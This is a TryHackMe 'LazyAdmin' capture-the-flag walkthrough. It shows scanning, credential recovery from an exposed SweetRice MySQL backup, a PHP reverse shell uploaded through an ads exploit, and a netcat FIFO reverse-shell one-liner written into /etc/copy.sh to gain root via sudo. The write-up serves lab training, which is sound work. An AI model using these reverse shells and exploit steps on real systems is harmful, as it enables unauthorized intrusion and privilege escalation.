

# Try Hack Me - LazyAdmin
Have some fun! There might be multiple ways to get user access. This is a TryHackMe box. To access this you must sign up to https://tryhackme.com/.

## Disclaimer - Your IP address will be different!
---
## Objective  
1. What is the user flag?
2.  What is the root flag?
---
## Scanning and Enumeration
Command: `nmap -sC -sV -oN nmap/intinal <ipaddress>`

Command Breakdown:
```
    -sC: Scan with default NSE scripts. Considered useful for discovery and safe

	-sV: Attempts to determine the version of the service running on port

	-oN: Normal output to the file normal.file
```

NMAP Results:
```
Nmap scan report for 10.10.3.179
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  2 19:08:02 2020 -- 1 IP address (1 host up) scanned in 18.73 seconds
```
It looks like we only have two port open. Since one of those ports is 80 we are going to take the IP address and plug it into our broswer and see what we can come up with.  

  
Well this certinly borring. It looks like we just have the default Apache page.  
It is time to TRY HARDER and look for hidden directories.  
Lets start by using gobuster.
Command: `gobuster -u http://10.10.3.179 -t 40 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`  
Command Breakdown: 
```
-u: Full URL (including scheme), or base domain name.

-t: Thread Usage, declare how mand thread you would like gobuster to use. (Default is 10)

-w: Path to the wordlist used for brute forcing (use – for stdin).

```
  

It seems that right away gobuster was able to find a directory called `/content`.  
Let's see if we can pull up the content directory in our browser.  
---
## Recon
---
 
There do not seem to be a lot of content in our content page... I wonder if that is by design!  
The key piece information we can take away from this is the name of the application that is being used.  

So lets use Searchsploite to see if there are any vulnerability for this application.  
It appears that we have several known vulnerability for this appication. Lets start by seeing what this backup discloure is all about.  
  
Accourding to the proof of concept there is an additional directory called `inc.mysql_backup`.  
I wonder if this is something that we can see in our browser. 

  
Well.. Well.. What would you know we have access it this file. Now lets download it and see if we are able to get any useful information out of it.  

Once I have opend up the mysql_backup file I searched for strings such as user, password, login, and admin. I was soon able to locate that I believed to be a user name and a password hash.

  
There is an online resource called [crackstation](https://crackstation.net/). We are going to use it to see if the hash that we found has be cracked before. So cross your fingers!  
  
Looks like this hash has been cracked before and now we have what could be a username and a password, but we still need to find some kind of login page.  
<br>
<br>
How about we check out some more to the vulnerability that showed up in searchsploit. We are going to look into the Cross-Site Request Forgery and see what it is all about.  

  
This exploite gives us two peices of usful information. The first peice is the loging page for the sweetrices application and the second peice is that we can create a reverse shell.  
<br>
<br>
Lets test out url and see if it brings us to a login page.  
URL: `http://10.10.3.179/content/as`  
  
<br>
Great we have a login page, now lets try out our username and password.  
BOOM!!! We are now logged into the SweetRice application. The next thing that we are going to do is try out the Cross-Site Request Forgery vulnerability.  
  
<br>
Before we use the Cross-Site Request Forgery vulnerability we will need to make some changes to it.  
The first thing that we will need to chang is under the form tag. Change the url after `action=` to the the following. `http://10.10.200.255/content/as/?type=ad&mode=save`  
REMEBER YOUR IP ADDRESS WILL BE DIFFERENT!

Secondly you will need to replace the php code with a reverse shell from [pentest monkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Simply replace all the code that is between `<?php` and `?>`. With the code you downloaded from pentest monkey.  

Now the last theing that you will need to change is the IP address and the port that your reverser shell will call out to.  
The IP address is going to be the IP address of your computer and the port number should be a higher port.   
```
  $ip = '10.8.2.222';  // CHANGE THIS
  $port = 9999;       // CHANGE THIS
```  
Before we pull the trigger on our exploit we need to set up a our listener.  
Command: `nc -lvnp 9999`  

Code Breakdown:
```
-l: listen mode, for inbound connects

-v: verbose [use twice to be more verbose]

-n: numeric-only IP addresses, no DNS

-p: local port number
```
Now that we have set up our listener we are going to fire off out exploit.  
Command: `firefox exploit.html`  
Once finished we will need to open up our browser and go to `/content/inc/ads` from here we will see our exploit. I chose to name mine shell.php. Yours will be whatever you named yours.  
Lets click on our exploite and see if it trips our listener.  
  

<br>
We have a successfull shell! Lets take a look aound and see if we are able to find any of our flages.  

If we use the `ls` command we can see that there is a user in the home folder. It seems to the none other then your everyday IT guy.  
  
Now that we know where the user.txt file is how about we see if it actally contains out flag.  
Command: `cat /home/itguy/user.txt`  


  
Objective one is complete.. We just found our user flag.  

## Privilege Escalation
---
Our next objective is to figure out how can escalation our privileges to a root user.  
We are going to start by checking to see what we can run as sudo by using the command of `sudo -l`.  
<br>
It looks like we are only able to run a perl script as admin. So it might be worth checking out this script and seeing what it does.  
  
After using the cat command to view the content of the `backup.pl`, it seem that this script calls an additional script call `copy.sh`.  
  
So now we have to chase the white rabbit and see what the `copy.sh` file does.  
  
At this point I am a litte confused because it seems that our `copy.sh` script is actually a reverse shell. You can read more about it on the [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) website.  
So in theory all we should have to do is modife the IP address in this file, set up a netcat listener, and boom we should have a root shell. Simple Right!  

  
Wrong, It looks like I am not going to be able to open up the file in nano.. or vim.. vi is a clear nope .. and emacs gave the same errors as all the others. So what are we going to do?  
We are going to write a whole new reverse shell using the echo command and directing the output into a new `copy.sh` file.  

Command: `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.2221 8888 >/tmp/f" > /etc/copy.sh`  

Once we have confirmed that our new reverse shell is calling out to our computer we can sent up a new netcat listener to port `8888` and then we fire off the pearl script.  
Command: `sudo /usr/bin/perl /home/itguy/backup.pl`
  
Now that we have root access we need to try and find out root flag. 

  
And just like that we have collected the root flag and pwnd this challange. 

# Congratulations you have just completed the Lazy Admin challenge!